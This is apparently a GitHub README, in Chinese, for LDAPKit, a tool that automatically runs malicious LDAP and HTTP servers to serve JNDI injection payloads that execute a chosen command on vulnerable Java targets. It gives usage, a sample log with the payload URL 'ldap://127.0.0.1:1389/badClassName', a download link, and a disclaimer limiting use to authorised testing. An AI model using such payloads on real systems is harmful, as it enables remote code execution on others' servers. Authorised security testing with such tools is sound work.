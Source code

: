 # LDAPKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

自用的`LDAP`工具

无需自行编译`Java`文件和开启`HTTP`服务，一切自动

只要一行：`java -jar LDAPKit.jar [命令]`

例如：`java -jar LDAPKit.jar notepad.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|
11:32:56 [INFO] [org.sec.Main] start jndi kit
11:32:56 [INFO] [org.sec.Main] cmd: notepad.exe
11:32:56 [INFO] [org.sec.Http] start http server: 0.0.0.0:8000
11:32:56 [INFO] [org.sec.Ldap] start ldap server: 0.0.0.0:1389
|--------------------------------------------------------|
|------Payload: ldap://127.0.0.1:1389/badClassName-------|
|--------------------------------------------------------|
```

然后......

[下载地址](https://github.com/EmYiQing/LDAPKit/releases/download/1.0/LDAPKit.jar)

## 免责申明

**未经授权许可使用`LDAPKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


